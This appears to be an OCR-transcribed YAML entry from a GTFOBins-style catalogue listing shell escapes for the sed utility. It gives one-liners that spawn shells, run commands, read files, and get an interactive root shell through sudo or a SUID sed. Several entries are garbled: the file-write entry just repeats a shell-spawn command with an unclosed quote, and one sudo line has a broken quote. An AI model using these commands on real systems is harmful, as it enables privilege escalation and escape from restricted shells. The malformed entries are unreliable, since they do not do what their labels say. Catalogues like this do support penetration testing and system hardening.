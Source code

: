 ```yaml
---
functions:
  shell:
    - description: GNU version only. Also, this requires `bash`.
      code: sed -n '1e exec sh 1>&0' /etc/hosts
  command:
    - description: GNU version only.
      code: sed -n "1e id" /etc/hosts
  file-write:
    - code: |
        LFILE=file_to_write
        sed -n '1e exec sh 1>&0 /etc/hosts
  file-read:
    - code: |
        LFILE=file_to_read
        sed '' "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./sed -e '' "$LFILE"
  sudo:
    - description: GNU version only. Also, this requires `bash`.
      code: sudo sed -n '1e exec sh 1>&0 /etc/hosts
    - description: Spawn interactive root shell by leveraging e(pipe) command. GNU version only.
      code: sudo sed e
---
```

